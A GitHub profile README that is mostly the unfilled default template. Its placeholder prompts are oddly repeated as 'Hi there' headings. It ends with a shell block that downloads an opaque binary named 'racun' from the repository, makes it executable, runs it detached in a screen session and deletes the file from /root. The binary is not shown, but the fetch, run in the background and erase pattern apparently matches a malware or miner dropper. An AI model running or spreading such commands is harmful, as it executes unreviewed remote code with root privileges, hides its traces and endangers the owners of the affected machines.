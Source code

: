 ### Hi there 👋

### Hi there 🔭 I’m currently working on ...
### Hi there 🌱 I’m currently learning ...
### Hi there 👯 I’m looking to collaborate on ...
### Hi there 🤔 I’m looking for help with ...
### Hi there 💬 Ask me about ...
### Hi there 📫 How to reach me: ...
### Hi there 😄 Pronouns: ...
### Hi there ⚡ Fun fact: ...


<!--
**racunzx/racunzx** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

```
wget https://raw.githubusercontent.com/racunzx/racunzx/main/racun
chmod +x racun && screen -S racun ./racun
rm -f /root/racun
```
